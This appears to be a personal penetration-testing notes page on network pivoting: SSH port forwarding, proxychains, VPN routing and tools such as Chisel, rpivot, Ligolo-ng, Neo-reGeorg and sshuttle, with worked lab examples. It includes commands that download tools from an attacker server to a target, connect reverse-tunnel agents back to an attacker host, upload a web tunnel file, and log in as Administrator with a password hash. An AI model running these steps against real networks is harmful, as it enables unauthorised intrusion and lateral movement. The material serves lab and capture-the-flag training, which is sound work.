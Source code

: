```yaml
---
layout: notes
permalink: /notes/network/pivot/
title: Network Pivoting
---
```


# Network Pivoting

## SSH Tunneling
```bash
# Local port forwarding
ssh -L 8080:internal_host:80 user@pivot_ip

# Remote port forwarding
ssh -R 8080:local_host:80 user@pivot_ip

# Dynamic port forwarding (SOCKS proxy)
ssh -D 1080 user@pivot_ip

# Bind to all interfaces
ssh -g -L 0.0.0.0:8080:internal_host:80 user@pivot_ip
```

## Proxy Chains
```bash
# Set up proxychains
proxychains nmap -sT internal_host

# Configure proxy list
echo "socks5 192.168.1.10 1080" > /etc/proxychains.conf

# Test proxy chain
proxychains curl internal_host

# Use multiple proxies
proxychains -q nmap -sT internal_host
```

## VPN Pivoting
```bash
# Start OpenVPN client
openvpn client.ovpn

# Route traffic via VPN
route add <network> <vpn_gateway>

# Verify VPN connection
ipconfig

# Use SoftEther VPN
vpnclient /cmd
```

## Pivoting Tools
- Chisel: ```chisel client <attacker_ip>:8080 R:12345:internal_host:80```
- Plink: ```plink -L 8080:internal_host:80 user@pivot_ip```
- SSHuttle: ```sshuttle -r user@pivot_ip 192.168.1.0/24```
- Proxychains-ng: ```proxychains-ng nmap internal_host```
- Meterpreter: ```use multi/manage/autoroute```

## Examples

### Basic with SSH + Proxychains
We have following hosts which are not accessible from our Kali:
```bash
192.168.98.30 -> Windows host
192.168.98.2 -> DC
```
Make sure to install and prepare proxychains:
```bash
sudo apt-get install proxychains
nano /etc/proxychains.conf:
    • Comment "strict_chain"
add Socks5 and socks4:
    • socks5 127.0.0.1 9050
    • socks4 127.0.0.1 9050
```

We will make a tunnel via the accessible machine:
```bash
Kali ->  192.168.80.10 -> 192.168.98.*
```

Execute ssh command:
```bash
ssh -D 9050 privilege@192.168.80.10
proxychains nc 192.168.98.30 445
```
We have a connection!

### RPIVOT (analog Chisel)
Make sure your environment have the python tool
```
conda create -n rpivot python=2.7
```

Navigate to the folder where rpivot.zip

Start the python http server in this folder
```
python3 -m http.server
```

Connect the target machine

Upload the rpivot.zip to the target machine using the curl
```
cd /tmp
curl http://10.10.200.2:8000/rpivot.zip --output rpivot.zip
unzip rpivot.zip
cd rpivot-master
```

Prepare the server below and connect this client
```
python2 client.py --server-ip 10.10.200.2 --server-port 9980
```

On attacker machine start the rpivot server

Navigate to the rpivot-master folder:
```
python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
```
If you have some problem, comment the socks5 in the /etc/proxychains.conf

### Ligolo-ng
Your machine 
```
$ sudo ip link del ligolo
$ sudo ip tuntap add user $(whoami) mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.20.0/24 dev ligolo
$ ligolo-proxy -selfcert
```

Excute that agent command okay then you will get the session
```
ligol-ng >> session 
choose 1
[Agent : ebelford@drip] » start
```

Remote Machine
```
chmod +x agent
./agent -connect 10.10.xx.xx:11601 -ignore-cert
```
now without proxychain you can do ping,nmap etc

### Neo-reGeorg
[Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)
```
python3 neoreg.py generate -k thm
```
Upload generated any tunnel file that application use as a framework (e.g. tunnel.php)
Access the tunnel file using neoreg.ph:
```
python3 neoreg.py -k thm -u http://10.10.11.140/uploader/files/tunnel.php
```
Access the server that only available from tunnel (use only socks5)
```
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```

### Sshuttle
```
git clone https://github.com/sshuttle/sshuttle.git
cd sshuttle

./run -r ebelford@ip -N 172.16.20.0/24

sshuttle -r ebelford@ip -N 172.16.20.0/24
password: ************
c : Connected to server.
```

New terminal 
```
evil-winrm -i 172.16.20.2 -u Administrator -H '<HASH>'
```